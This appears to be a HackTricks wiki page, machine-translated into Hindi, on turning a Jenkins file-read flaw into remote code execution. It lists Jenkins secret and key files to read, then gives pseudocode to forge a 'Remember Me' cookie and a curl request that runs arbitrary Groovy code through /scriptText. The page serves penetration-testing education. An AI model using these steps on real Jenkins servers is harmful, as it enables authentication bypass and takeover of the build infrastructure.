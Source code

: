 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इस ब्लॉग पोस्ट में एक शानदार तरीका है कि कैसे Jenkins में Local File Inclusion भेद्यता को RCE में परिवर्तित किया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस भाग की जिसमें एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए किया जाता है, जब तक कि मेरे पास अपने स्वयं के संक्षेप को बनाने का समय नहीं है:

### हमले की पूर्वापेक्षाएँ

* **विशेषता आवश्यकता:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
* **एक्सेस स्तर:** हमलावर को Overall/Read अनुमतियाँ चाहिए।
* **गुप्त पहुँच:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### विस्तृत शोषण प्रक्रिया

#### चरण 1: डेटा संग्रहण

**उपयोगकर्ता जानकारी पुनर्प्राप्ति**

* प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुँच प्राप्त करें:
* **उपयोगकर्ता नाम**
* **उपयोगकर्ता बीज**
* **टाइमस्टैम्प**
* **पासवर्ड हैश**

**गुप्त कुंजी निष्कर्षण**

* कुकी पर हस्ताक्षर करने के लिए उपयोग की जाने वाली क्रिप्टोग्राफिक कुंजियों को निकालें:
* **गुप्त कुंजी:** `$JENKINS_HOME/secret.key`
* **मास्टर कुंजी:** `$JENKINS_HOME/secrets/master.key`
* **MAC कुंजी फ़ाइल:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### चरण 2: कुकी निर्माण

**टोकन तैयारी**

*   **टोकन समाप्ति समय की गणना करें:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // वर्तमान समय में एक घंटा जोड़ता है
```
{% endcode %}
*   **टोकन के लिए डेटा को संयोजित करें:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC कुंजी डिक्रिप्शन**

*   **MAC कुंजी फ़ाइल को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // मास्टर कुंजी को AES128 कुंजी प्रारूप में परिवर्तित करें
decrypted = AES.decrypt(macFile, key)  // .mac फ़ाइल को डिक्रिप्ट करें
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**हस्ताक्षर गणना**

*   **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey)  // टोकन और MAC कुंजी का उपयोग करके HMAC की गणना करें
tokenSignature = bytesToHexString(mac)  // MAC को हेक्साडेसिमल स्ट्रिंग में परिवर्तित करें
```

**कुकी एन्कोडिंग**

*   **अंतिम कुकी उत्पन्न करें:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // कुकी डेटा को Base64 एन्कोड करें
```
{% endcode %}

#### चरण 3: कोड निष्पादन

**सत्र प्रमाणीकरण**

* **CSRF और सत्र टोकन प्राप्त करें:**
* `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
* प्रतिक्रिया से `JSESSIONID` को कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**कमांड निष्पादन अनुरोध**

*   **Groovy स्क्रिप्ट के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन को निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड यह प्रदर्शित करता है कि कैसे आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध भेजा जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
